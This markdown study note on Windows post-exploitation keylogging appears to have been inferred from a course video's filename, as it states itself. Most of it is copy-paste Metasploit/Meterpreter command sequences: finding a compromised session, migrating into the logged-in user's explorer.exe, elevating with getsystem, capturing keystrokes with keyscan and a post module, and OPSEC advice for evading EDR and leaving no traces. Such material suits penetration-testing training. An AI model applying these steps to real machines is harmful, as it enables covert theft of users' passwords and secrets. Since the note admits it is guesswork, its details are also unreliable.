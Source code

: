 # 19 - Windows Keylogging (Windows Post-Exploitation)

Note: No transcript was provided. The following is a conservative, exam-focused summary inferred from the filename and the “04-WindowsPostExploitation” module. Commands and module names are standard for Metasploit/Meterpreter but may vary slightly by version—verify with show options or help where noted.

## What the video covers (Introduction / big picture)
- Why keylogging is useful in Windows post-exploitation: capturing passwords, secrets, and activity typed by an interactive user.
- How to reliably capture keystrokes using Meterpreter on a Windows target.
- Requirements and pitfalls: capturing from the correct user session/desktop, architecture and permissions, EDR/AV detections, and ethical/legal constraints.
- Two common approaches:
  - Interactive Meterpreter keyscan commands (keyscan_start/dump/stop).
  - Metasploit post module for automated collection and saved loot.

## Flow (ordered)
1. Obtain a Meterpreter session on the Windows target.
2. Confirm OS/arch and who you’re running as; identify an interactive user session.
3. Migrate Meterpreter into a GUI process owned by the target user (commonly explorer.exe) and, on x64 systems, into a 64-bit process.
4. Start the keylogger (keyscan_start) and optionally enable msfconsole spool to save output.
5. Periodically dump captured keystrokes (keyscan_dump) or use the post keylogger module to automate capture and save to loot.
6. Stop the keylogger (keyscan_stop), clean up, and verify nothing is left on disk.
7. Optional: complement with screenshot/clipboard capture for context.

## Tools highlighted
- Metasploit Framework (msfconsole)
- Meterpreter (Windows stdapi keyscan functionality)
- Metasploit post module: search type:post platform:windows keylog (e.g., post/windows/capture/keylogger)
- msfconsole spool (to save console output to a file)

## Typical command walkthrough (detailed, copy-paste friendly)

Assumes you already have a Meterpreter session on the target.

### 1) Identify session, arch, and user
```
msfconsole -q
sessions
sessions -i 1
sysinfo
getuid
```

- If you are not the interactive user or you’re in Session 0 (service), migrate to the target user’s desktop process.

### 2) Enumerate processes and migrate into the user’s explorer.exe
```
ps
```
- Find the explorer.exe that belongs to the logged-in target user and note its PID (e.g., 3120). Prefer a 64-bit process on x64 Windows.

```
migrate 3120
getuid
sysinfo
```

- If migration fails due to permissions, try elevating:
```
getsystem
ps
migrate 3120
```

### 3) Start keylogger, capture, and dump
Optionally enable spool to save all console output to a file on your attack box:
```
background
spool ~/windows_keylog.txt
sessions -i 1
```

Start keylogging:
```
keyscan_start
```

Let the user type for a while (browse, log in to apps, etc.), then dump:
```
keyscan_dump
```

Repeat dumps as needed, then stop:
```
keyscan_stop
```

Stop spooling if you enabled it:
```
background
spool off
sessions -i 1
```

### 4) Automated capture with a Metasploit post module
If you prefer an automated loop that saves to loot:

```
background
search type:post platform:windows keylog
use post/windows/capture/keylogger
show options
set SESSION 1
run
```

- Review output and loot path in msfconsole. Loot typically saves under: ~/.msf4/loot/

Tip: The show options output will reveal additional flags (e.g., duration/poll interval if supported by your MSF version).

## Practical tips
- Session/desktop matters: keyscan only captures keys from the desktop your Meterpreter is running in. If your session is in Session 0 or under a service account, migrate into the user’s GUI process (explorer.exe) to capture that user’s keystrokes.
- Architecture matters: on x64 Windows, use a 64-bit Meterpreter or migrate into a 64-bit process for best results across modern GUI apps.
- Privileges: if migration to explorer.exe fails, elevate first (getsystem) or find another user-owned GUI process you can migrate into.
- Limitations:
  - UAC secure desktop, lock screen, and credential providers often run on separate desktops; keyscan won’t capture those.
  - RDP users run in separate sessions. Migrate into the RDP user’s explorer.exe in that session.
- OPSEC:
  - Keylogging is noisy and can be detected by EDR. Keep capture windows short and targeted.
  - Avoid writing any keylogger binaries to disk; Meterpreter’s keyscan is in-memory.
  - Always stop and clean up (keyscan_stop; end spool).
- Evidence handling: use msfconsole spool to capture dumps to your notes, and annotate times and context for later reporting.
- Troubleshooting:
  - If keyscan_dump shows nothing, verify you’re in the correct session and the user is actively typing.
  - If the session becomes unstable after migration, pick a different stable GUI process (explorer.exe, notepad.exe) and re-run keyscan.

## Minimal cheat sheet (one-screen flow)
```
# 1) Attach to the session
sessions
sessions -i <ID>
sysinfo
getuid

# 2) Migrate into the interactive user's explorer.exe (use ps to find PID)
ps
migrate <PID_of_explorer.exe>

# 3) Optional: log console output to a file on attacker box
background
spool ~/windows_keylog.txt
sessions -i <ID>

# 4) Keylog: start -> dump -> stop
keyscan_start
# wait while user types
keyscan_dump
keyscan_stop

# 5) Stop spooling and clean up
background
spool off

# Alternative: automated post module
search type:post platform:windows keylog
use post/windows/capture/keylogger
set SESSION <ID>
run
```

## Summary
This lesson demonstrates Windows keylogging as a post-exploitation technique using Meterpreter. The key to reliable capture is running inside the correct user’s interactive desktop session (often by migrating to their explorer.exe), matching architecture on x64 systems, and keeping the capture targeted and short for OPSEC. Use the Meterpreter keyscan commands for quick, ad-hoc keylogging, or the Metasploit post keylogger module to automate collection and save results to loot. Always stop the keylogger and avoid leaving artifacts on disk.